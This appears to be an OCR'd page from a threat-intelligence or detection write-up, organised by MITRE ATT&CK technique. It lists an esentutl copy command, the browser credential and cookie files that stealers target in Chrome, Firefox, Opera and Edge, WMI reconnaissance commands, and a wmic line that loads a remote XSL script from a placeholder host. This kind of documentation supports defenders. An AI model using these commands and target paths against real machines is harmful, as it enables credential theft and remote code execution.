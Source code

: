 Credentials from Password Stores: Credentials from Web Browsers [[T1555.003](https://attack.mitre.org/techniques/T1555/003/)]

```visual-basic
cmd.exe /Q /c esentutl.exe /y
```

```
**Google Chrome**
$user\$appdata\Google\Chrome\User Data\.*\Bookmarks
$user\$appdata\Google\Chrome\User Data\.*\Cookies
$user\$appdata\Google\Chrome\User Data\.*\Login Data
$user\$appdata\Google\Chrome\User Data\.*\Web Data
$user\$appdata\Google\Chrome\User Data\.*\Web Data-journal
$user\$appdata\Google\Chrome\User Data\Local State

**Mozilla Firefox**
$user\$appdata\Mozilla\Firefox\Profiles\.*\cookies
$user\$appdata\Mozilla\Firefox\Profiles\.*\key3.db
$user\$appdata\Mozilla\Firefox\Profiles\.*\key4.db
$user\$appdata\Mozilla\Firefox\Profiles\.*\logins.json
$user\$appdata\Mozilla\Firefox\Profiles\.*\places.sqlite

**Opera**
$user\$appdata\Opera Software\Opera Stable\User Data\.*\Bookmarks
$user\$appdata\Opera Software\Opera Stable\User Data\.*\Cookies
$user\$appdata\Opera Software\Opera Stable\User Data\.*\Login Data
$user\$appdata\Opera Software\Opera Stable\User Data\.*\Web Data
$user\$appdata\Opera Software\Opera Stable\User Data\Local State
$user\$appdata\Opera\Opera Next\User Data\.*\Bookmarks
$user\$appdata\Opera\Opera Next\User Data\.*\Cookies
$user\$appdata\Opera\Opera Next\User Data\.*\Login Data
$user\$appdata\Opera\Opera Next\User Data\.*\Web Data
$user\$appdata\Opera\Opera Next\User Data\Local State

**Microsoft Edge**
$user\$appdata\Microsoft\Edge\User Data\.*\Bookmarks
$user\$appdata\Microsoft\Edge\User Data\.*\Cookies
$user\$appdata\Microsoft\Edge\User Data\.*\Login Data
$user\$appdata\Microsoft\Edge\User Data\.*\Web Data
$user\$appdata\Microsoft\Edge\User Data\Local State
```
<br>

Windows Management Instrumentation [[T1047](https://attack.mitre.org/techniques/T1047/)]

```
gwmi
Get-WmiObject -Query “select * from Win32_Service”
Get-WmiObject -Class Win32_Service
Get-CimInstance -ClassName Win32_ComputerSystem
Get-WmiObject win32_processor
Get-WmiObject CIM_PhysicalMemory
Get-WmiObject –ComputerName <host> –Class Win32_ComputerSystem | Select-Object UserName
wmic.exe os get /FORMAT:”http://<IP_address>:<port>/ <file_name>.exe”
```
<br>

